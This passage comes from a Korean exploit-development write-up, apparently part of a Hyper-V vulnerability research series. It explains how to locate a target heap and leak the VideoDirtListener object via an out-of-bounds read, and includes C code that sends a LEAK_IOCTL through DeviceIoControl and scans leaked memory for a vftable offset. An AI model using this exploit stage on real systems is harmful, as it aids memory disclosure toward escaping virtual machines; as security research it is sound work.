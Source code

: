 ![](newjeans-hyper-v-pt4/image14.png)
VMMap에서 확인해보니 4KB No Access인 메모리 다음에 있는 메모리라는 것을 알 수 있었습니다. dll 주소값을 읽을 때처럼 타겟 힙에 도착하자마자 OOB Read를 하는 것이 아닌 추가적인 오프셋 증가가 필요합니다.
Exploit 코드의 Jump offset과 Read range로 입력 받는 변수가 바로 이를 위한 것이고 `VideoDirtListener`의 주소와 타겟 힙의 시작 주소를 빼보니 약 1490KB라는 값을 얻었습니다. Jump offset을 1300KB로 하고 200KB정도 읽어준 다음 DLL 베이스를 알아낼 때처럼 vftable의 오프셋인 0x22e0과 비교해서 `VideoDirtListener`를 찾아줍니다.
```C
	printf("[+] Read 2\n");
	DeviceIoControl(driver, LEAK_IOCTL, &FindVdl, sizeof(ReadInfo), NULL, 0, NULL, NULL);
	printf("[+] Find VideoDirtListener from Leaked Data\n");

	for (__int64* qword = FindVdl.buffer; qword < (__int64*)FindVdl.buffer + (FindVdl.to - FindVdl.from) / 8; qword++) {
		unsigned short* word = qword;
		if(*word == 0x22e0 && (*qword >= 0x7ff000000000 && *qword < 0x7fffffffffff)){
			VideoDirtListenerVtable = *qword;
			VideoDirtListenerOffset = qword;
			VideoDirtListener = qword[0x58 / 8];
			printf("VideoDirtListener: %llx, vftable: %llx\n", VideoDirtListener, VideoDirtListenerVtable);
		}
	}

	if (!VideoDirtListener || !combase || !RPCRT4 || !KernelBase) {
		printf("[!] Some Data Not Found from Target Heap\n");
		UnmapViewOfFile(data);
		CloseHandle(hFileMap);
		CloseHandle(hFile);
		CloseHandle(driver);
		return 0;
	}

```
